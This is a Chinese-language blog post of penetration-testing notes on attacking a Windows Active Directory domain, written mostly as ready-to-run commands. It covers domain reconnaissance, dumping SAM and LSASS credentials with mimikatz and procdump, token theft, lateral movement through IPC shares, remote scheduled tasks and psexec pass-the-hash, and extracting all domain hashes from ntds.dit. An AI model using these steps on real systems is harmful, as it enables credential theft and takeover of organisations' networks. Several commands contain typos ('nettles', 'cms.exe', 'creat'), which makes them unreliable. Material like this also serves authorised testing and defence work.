 ```yaml
---
title: 域渗透知识备忘
date: 2020-04-26 16:51:05
tags:
  - Penetration
---
```


域渗透的一般流程：

入口主机-->权限维持-->横向渗透-->取密码(域用户)-->域信息收集-->横向渗透-->接管域控 

### 一、域信息收集

**1、net**

`net user /domain`  获取域用户列表
`net group. "domain admins" /doamin`  获取域管理员列表
`net group "domain controllers" /domain `  查看域控制器(如果有多台)
`net group "domail computers" /domain`  查看域机器
`net group /domain`  查询域里面的组<!-- more -->

`net view`  查看同一域内机器列表
`net view \\ip`  查看某IP共享
`net view \\GHQ`  查看GHQ计算机的共享资源列表
`net view /domain`  查看内网存在多少个域
`net view /domain:XYZ`  查看XYZ域中的机器列表

**2、nltest信任域**

查询域间的信任关系
`nettles  /domain_trusts /all_trusts /v /server:192.168.52.2`
返回所有信任192.168.52.2的域

`nltest /dsgedc:XXXXX /serve:192.168.52.2`
返回域控和其相应的IP地址，XXXXX是上步骤结果中的一个域

nltest的命令：
https://www.cnblogs.com/dreamer-fish/p/3473895.html

**3、nbtscan.exe**

扫描网段内是否存在域内机器

`nbtscan.exe 192.168.52.0/24`

**4、csvde**

csvde是windows server 2008的内置命令行工具，如果安装了AD DS或Active Directory轻型目录服务，则功能可用
`csvde -setspn hack -f c:\windows\temp\hack.csv`
LDAP的存储规则：
区分名(DN)：一个条目的区分名叫做‘dn’，在一个目录中这个名称总是唯一的
CN=Common Name为用户名或服务器名，最长可以到80个字符，可以为中文
OU=Organization Unit为组织单元，最多可以有四级，每级最长32个字符，可以为中文
O=Organization 为组织名，可以3-64个字符长
C=Country为国家名，可选，为2个字符长

**5、setspn**

`setspn -T 域名 -Q */*`

- SPN官方名称即“服务主体名称”，本质上存的是域内各种服务资源的对应关系
- 如，对应的服务类型是什么，机器名是什么，服务端口是多少
- 借助SPN可以快速定位当前目标域中所有存活的各类服务器

例如查找mssql服务器
`setspn -T 域名 -Q */* | findstr MSSQL`

**6、dnsdump.exe**

获取域名其对应的IP地址
`dnsdump.exe -u 域名/域用户 -p 域密码 域控机器名 -r`

### 二、域渗透思路

####  2.1、注册表读取密码-本地

​	**1、获取注册表信息**：
`reg save HKLM\SYSTEM c:\windows\temp\Sys.hiv`
`reg save HKLM\SAM c:\windows\temp\Sam.hiv`

​	**2、mimikatz解密**
`lsadump::sam /sam:Sam.hiv /system:Sys.hiv`

#### 2.2、lsass进程读取内存hash

windows 03和08中明文存储账号密码；12和16中加密为hash值

​	**1、目标机执行procdump.exe**
`procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp`

​	**2、mimikatz中运行,结果保存在日志里**
`mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"`

#### 2.3、LaZagne取各种连接工具密码，浏览器保存密码等

https://github.com/AlessandroZ/LaZagne

#### 2.4、凭证窃取

通过tasklist /v查看进程用户，如果有域用户开启的进程，则窃取凭证

`incognito.exe list_tokens -u`  查看目标机当前存储那些凭证
`incognito.exe execute -c "HACK\Administrator" cmd.exe`  使用域用户administrator凭证开启一个cmd

#### 2.5、命令行渗透-IPC连接

为什么命令后渗透？？
1、远程登录桌面增加暴漏风险
2、目标管理员可能对服务器禁用远程登录

- 建立ipc连接
  可以访问目标机器的文件(上传、下载)，也可以在目标机器上运行命令上传和下载文件直接通过copy命令就可以，
  不过路径换成UNC路径。以\开头的路径就是UNC路径，比如\\192.168.1.1\c$\users

`net use \\192.168.1.1 /u:域\域用户名 域用户密码`  
例如：`net use \\192.168.1.1 /u:hack\administrator  1q2w3`

- 第二步：上传/下载文件
  例如：从本地上传1.bat到192.168.1.1机器C盘根目录下
  `copy 1.bat \\192.168.1.1\C$\`

 dir、copy、xcopy、move、type的参数都可以使用UNC路径

#### 2.6、命令行渗透-计划任务执行命令

- 创建计划任务
  `schtasks /create /tn 任务名 /U 域\域用户 /P 域用户密码 /tr 执行的命令或者bat路径 /sc ONSTART /s 域机器IP /RU system`

- 执行计划任务

  `schtasks /run /tn 任务名 /s 域机器IP /U 域\域用户 -P 域用户密码`

- 删除计划任务

  `schtasks /F /delete /tn 任务名 /s 域机器IP /U 域\域用户 /P 域用户密码`

例如：在192.168.1.1上建立task1任务（以system权限执行cmd程序）
`schtasks /create /tn task1 /U hack\administrator /P 1q2w3e -tr "c:\windows\system32\cms.exe /c whoami > c:\\windows\\temp\\1.txt" /sc ONSTART /s 192.168.1.1 /RU system`

#### 2.7、命令行渗透-psexec.exe

**知道域账号密码**

- 建立IPC连接

  `net use \\192.168.1.1 /u:域\域用户名 域用户密码`

- 执行命令

  `psexec.exe \\192.168.1.1 -s cmd.exe -accepteula`
  -accepteula第一次运行回弹框，输入这个参数便不会弹框；-s 以“nt authority\system”权限运行远程进程

**不知明文域账号密码，hash传递**

`psexec_hash.exe -hashes :用户hash 域名\用户名@目标IP`

#### 2.8、获取内网代理

内网中有些资源可能需要挂指定`代理`才能进行访问，一般是`IE`代理或`PAC`代理，这两个代理可以通过注册表来读取。

```shell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL
```

### 三、Windows api 利用

以下所有利用工具的前提都是已经`建立IPC连接`

| 工具名称                    | 功能                                                 |
| :-------------------------- | :--------------------------------------------------- |
| NetGroupGetUsers.exe        | 查询域里的各个组里的成员，IP必须是域控IP，域用户随意 |
| NetLocalGroupGetMembers.exe | 查询目标服务器本地管理组的成员                       |
| NetUserEnum.exe             | 查询目标服务器所有用户，包括隐藏用户                 |

命令用法如下：

```shell
NetGroupGetUsers.exe "domain users" \\192.168.52.2
NetLocalGroupGetMembers.exe \\192.168.52.2
NetUserEnum.exe \\192.168.52.2
```

### 四、导域HASH

拿下域控之后，我们可以通过导出域hash将所有域用户的密码取出。

`Windows`的密码是经过`hash`后存储的，本地存放在`hklm\sam`以及`hklm\system`注册表中，域里面是存放在域控制器的`c:\windows\ntds\ntds.dit`中。
`ntds.dit`其实就是个`esent`数据库，微软本身就有一系列文档化的`api`能够操作这个数据库：[官方文档](https://msdn.microsoft.com/en-us/library/windows/desktop/gg294074.aspx)，首先我们要创建一个快照：

```shell
ntdsutil snapshot "activate instance ntds" creat quit quit
```

接下来我们挂载快照：

```shell
ntdsutil snapshot "mount {快照id}" quit quit
```

接下来我们复制`ntds.dit`到本地：

```shell
copy 装载位置\windows\NTDS\ntds.dit C:\ntds.dit
```

接下来我们解除挂载：

```shell
ntdsutil snapshot "unmount {快照id}" quit quit
```

最后删除快照：

```shell
ntdsutil snapshot "delete {快照id}" quit quit
```

接下来我们就可以开始解密了，首先通过注册表的方式获取`KEY`，再用`NTDSDumpEx`获取所有域用户hash：

```shell
reg save HKLM\SYSTEM c:\windows\temp\sys.hiv
NTDSDdumpEx.exe -d ntds.dit -o hash.txt -s sys.hiv -h
```